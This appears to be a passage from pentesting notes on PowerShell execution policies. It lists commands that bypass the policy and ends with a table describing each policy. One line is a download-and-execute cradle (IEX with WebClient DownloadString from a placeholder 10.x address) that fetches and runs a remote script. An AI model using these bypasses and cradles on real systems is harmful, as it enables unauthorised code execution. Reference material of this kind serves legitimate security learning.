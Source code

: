 {% embed url="https://sid-500.com/2018/02/15/powershell-for-beginners-part-10-filtering-and-where-object/" %}

## Command/Script Execution

Get the execution policy:

```
Get-ExecutionPolicy
Get-ExecutionPolicy -List | Format-Table -AutoSize
```

Set the execution policy:

```
Set-ExecutionPolicy Bypass -Scope CurrentUser
```

Bypass execution restriction only for a specific operation/command:

```
powershell.exe -ExecutionPolicy Bypass -File C:\file.ps1
powershell.exe -ExecutionPolicy Bypass "Get-ACL c:\users\administrator | Select -ExpandProperty AccessToString"
```

Bypass execution restriction by piping the content of a locally stored script into Powershell:

```
Get-Content c:\windows\temp\file.ps1 | powershell.exe -noprofile -
type c:\windows\temp\file.ps1 | powershell.exe -noprofile -
```

Bypass execution restriction by downloading and executing a script from memory:

```
powershell -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.x.x.x/file.ps1')"
```

Bypass execution restriction by using the "command" switch:

```
powershell -c "Get-ACL c:\users\administrator | Select -ExpandProperty AccessToString"
```

### Powershell Execution Policies

| Policy         | Description                                                                                                                                          |
| -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------- |
| `AllSigned`    | Only scripts signed by a trusted publisher can be run.                                                                                               |
| `Bypass`       | No restrictions; all Windows PowerShell scripts can be run.                                                                                          |
| `Default`      | Normally `RemoteSigned`, but is controlled via ActiveDirectory                                                                                       |
| `RemoteSigned` | Downloaded scripts must be signed by a trusted publisher before they can be run.                                                                     |
| `Restricted`   | No scripts can be run. Windows PowerShell can be used only in interactive mode.                                                                      |
| `Undefined`    | NA                                                                                                                                                   |
| `Unrestricted` | Similar to `bypass,` however, _If you run an unsigned script that was downloaded from the Internet, you are prompted for permission before it runs._ |
